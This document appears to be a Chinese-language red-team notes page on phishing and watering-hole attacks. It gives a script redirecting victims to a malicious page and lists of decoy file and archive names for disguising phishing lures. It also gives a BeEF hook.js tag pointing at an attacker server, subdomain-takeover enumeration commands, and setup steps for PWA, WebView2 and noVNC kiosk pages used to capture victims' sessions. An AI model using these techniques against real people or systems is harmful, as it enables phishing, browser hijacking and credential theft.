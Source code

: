 ```javascript
<script>
  window.location.href = "http://IP地址或域名/malicious_page";
</script>
```

### 钓鱼文件

#### 常见伪装配置文件的文件名

系统或应用程序配置文件:

+ config.ini / settings.ini
+ config.xml / settings.xml
+ config.json / settings.json
+ app.config
+ web.config
+ system.cfg
+ default.cfg
+ .env (环境变量文件)
+ log4j2.xml / log4j.properties
+ server.properties
+ database.config / db.config
+ application.properties

软件或工具的配置文件:

+ vpn.conf
+ proxy.conf
+ ssh.config / ssh_config
+ docker-compose.yml
+ gitconfig
+ gradle.properties
+ .bashrc / .zshrc (Shell 配置文件)
+ hosts (hosts 文件)
+ ldap.conf

与安全相关的配置文件:

+ ca.crt (根证书)
+ client.crt (客户端证书)
+ server.key (服务器私钥)
+ vulnerability.report
+ security.conf
+ firewall.conf

临时文件或备份文件:

+ backup.ini / backup.xml
+ temp.ini / temp.xml
+ old.ini / old.xml
+ ~config.ini

其他配置文件：

+ readme.txt
+ license.txt
+ install.txt

#### 常见伪装压缩包的文件名

以update为主题的文件名:

+ update.zip / update.rar / update.7z
+ patch.zip / patch.rar / patch.7z
+ security_update.zip / security_update.rar
+ system_update.zip / system_update.rar
+ software_update.zip / software_update.rar

以backup为主题的文件名:

+ backup.zip / backup.rar / backup.7z
+ data_backup.zip / data_backup.rar
+ full_backup.zip / full_backup.rar
+ system_backup.zip / system_backup.rar

以document或report为主题的文件名:

+ report.zip / report.rar / report.7z
+ document.zip / document.rar / document.7z
+ invoice.zip / invoice.rar
+ contract.zip / contract.rar
+ statement.zip / statement.rar

以archive为主题的文件名:

+ archive.zip / archive.rar / archive.7z
+ archive_data.zip / archive_data.rar

以tool或utility为主题的文件名:

+ tool.zip / tool.rar / tool.7z
+ utility.zip / utility.rar / utility.7z
+ installer.zip / installer.rar

与软件或服务相关的压缩包名:

+ vpn.zip / vpn.rar / vpn.7z
+ proxy.zip / proxy.rar / proxy.7z
+ server_config.zip / server_config.rar

其他常见压缩包名:

+ files.zip / files.rar
+ data.zip / data.rar
+ images.zip / images.rar
+ assets.zip / assets.rar
+ logs.zip / logs.rar

### Hook网站

BeEF:

```bash
<script src="http://IP地址或域名:3000/hook.js"></script>
```

[hook_server.py](水坑攻击/hook_server.py)

```bash
├── templates
│   └── index.html
```

[index.html](水坑攻击/index.html)

```bash
pip install flask-cors
python hook_server.py
```

### 子域名接管

```bash
amass enum -d 域名
nslookup -type=cname 子域名
dig cname 子域名
```

```bash
apt install awscli
aws s3 ls s3://bucket-name

apt install azure-cli
az storage account show --name storage-account-name

http://用户名.github.io
```

### PWA

```bash
openssl genrsa -out key.pem 4096
openssl req -new -key key.pem -out csr.pem
openssl x509 -req -in csr.pem -signkey key.pem -out cert.pem -days 365

cert.pem > /etc/ssl/certs/
key.pem > /etc/ssl/private/
```

/etc/apache2/sites-available/default-ssl.conf:

```bash
SSLCertificateFile      /etc/ssl/certs/cert.pem
SSLCertificateKeyFile   /etc/ssl/private/key.pem
```

```bash
apt install apache2 ssl-cert
a2enmod ssl
```

[PWA](水坑攻击/PWA)

### WebView2

```bash
pip install PyQt5 Flask
```

[webview_app.py](水坑攻击/webview_app.py)

[flask_app.py](水坑攻击/flask_app.py)

```bash
python flask_app.py
python webview_app.py
```

### noVNC

```bash
apt install tigervnc-standalone-server tigervnc-xorg-extension tigervnc-viewer
vncpasswd
```

/root/.vnc/xstartup:

```bash
#!/bin/sh
# Start Gnome 3 Desktop
[ -x /etc/vnc/xstartup ] && exec /etc/vnc/xstartup
[ -r $HOME/.Xresources ] && xrdb $HOME/.Xresources
vncconfig -iconic &
dbus-launch --exit-with-session gnome-session &
```

```bash
chmod +x /root/.vnc/xstartup
vncserver -depth 32 -geometry 2000x1000
```

```bash
git clone https://github.com/novnc/noVNC
./utils/novnc_proxy --vnc 0.0.0.0:5901 --listen 80

>> gsettings set org.gnome.desktop.lockdown disable-lock-screen 'true'
>> gsettings set org.gnome.desktop.screensaver lock-enabled false
>> firefox --url=http://testphp.vulnweb.com –kiosk
```

[vnc.html](水坑攻击/vnc.html)
